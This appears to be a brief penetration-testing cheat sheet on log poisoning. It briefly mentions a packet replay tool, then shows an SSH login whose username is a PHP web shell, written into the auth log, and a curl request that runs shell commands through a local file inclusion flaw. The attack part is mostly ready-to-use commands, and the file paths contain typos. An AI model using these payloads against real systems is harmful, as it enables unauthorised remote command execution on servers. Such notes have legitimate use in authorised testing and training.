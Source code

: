 # Log Poisoning

**Colasoft** **Packet Player**

Is a packet replayer which allows users to open captured packet trace files and play them back in the network

Can replay fake traffic into a connected network.

[http://www.colasoft.com/packet\_player/](http://www.colasoft.com/packet_player/)

**Scenario:**

Ports 22 & 80

can view /var/log.auth.log on port 80

```
ssh "<?php echo system($_GET['cmd']);?>"@TARGETIPADDRESS
```

Call the webshell through the viewable log with in this case is viewable by LFI

Below view working directory, current user and lists contents of directory

```
curl 'http://TARGETIPADDRESS/index.php?file=%2fcar%2flog%2fauth.log&cmd=pwd;id;ls%20-lah'
```



